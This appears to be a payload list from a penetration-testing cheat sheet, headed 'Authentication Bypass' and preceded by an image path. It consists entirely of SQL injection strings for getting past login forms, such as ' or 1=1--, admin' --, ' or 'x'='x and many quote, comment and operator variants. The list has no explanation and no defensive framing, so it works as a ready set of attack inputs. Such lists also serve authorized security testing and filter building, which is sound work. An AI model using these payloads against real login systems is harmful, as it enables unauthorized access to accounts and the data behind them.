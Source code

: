 ## Authentication Bypass

    '-'
    ' '
    '&'
    '^'
    '*'
    ' or 1=1 limit 1 -- -+
    '="or'
    ' or ''-'
    ' or '' '
    ' or ''&'
    ' or ''^'
    ' or ''*'
    '-||0'
    "-||0"
    "-"
    " "
    "&"
    "^"
    "*"
    '--'
    "--"
    '--' / "--"
    " or ""-"
    " or "" "
    " or ""&"
    " or ""^"
    " or ""*"
    or true--
    " or true--
    ' or true--
    ") or true--
    ') or true--
    ' or 'x'='x
    ') or ('x')=('x
    ')) or (('x'))=(('x
    " or "x"="x
    ") or ("x")=("x
    ")) or (("x"))=(("x
    or 2 like 2
    or 1=1
    or 1=1--
    or 1=1#
    or 1=1/*
    admin' --
    admin' -- -
    admin' #
    admin'/*
    admin' or '2' LIKE '1
    admin' or 2 LIKE 2--
    admin' or 2 LIKE 2#
    admin') or 2 LIKE 2#
    admin') or 2 LIKE 2--
    admin') or ('2' LIKE '2
    admin') or ('2' LIKE '2'#
    admin') or ('2' LIKE '2'/*
    admin' or '1'='1
    admin' or '1'='1'--
    admin' or '1'='1'#
    admin' or '1'='1'/*
    admin'or 1=1 or ''='
    admin' or 1=1